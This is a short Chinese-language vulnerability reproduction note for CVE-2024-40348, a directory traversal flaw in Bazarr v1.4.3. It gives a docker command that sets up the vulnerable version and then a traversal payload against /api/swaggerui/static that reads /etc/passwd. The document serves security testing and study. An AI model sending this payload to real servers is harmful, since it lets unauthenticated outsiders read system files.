


# Bazarr 目录遍历漏洞（CVE-2024-40348）

Bazarr是Sonarr和Radarr的配套应用程序，可根据您的要求管理和下载字幕。Bazarr存在任意文件读取漏洞，该漏洞是由于Bazaar v1.4.3的组件/api/swaggerui/static中存在一个问题，允许未经身份验证的攻击者可利用该漏洞执行目录遍历。

官方地址：https://www.bazarr.media/

版本影响：v1.4.3

参考链接

- https://github.com/4rdr/proofs/blob/main/info/Bazaar_1.4.3_File_Traversal_via_Filename.md

## 漏洞环境

执行如下命令启动一个bazarr:1.4.3

```sh
sudo docker run --name=bazarr -e PUID=1000 -e PGID=1000 -e TZ=Etc/UTC  -p 6767:6767 -v /path/to/bazarr/config:/config -v /path/to/movies:/movies `#optional` -v /path/to/tv:/tv `#optional` --restart unless-stopped lscr.io/linuxserver/bazarr:1.4.3
```

服务启动后，访问`http://your-ip:6767/`



## 漏洞复现

发送如下payload

/api/swaggerui/static/../../../../../../../../../../../../../../../../etc/passwd



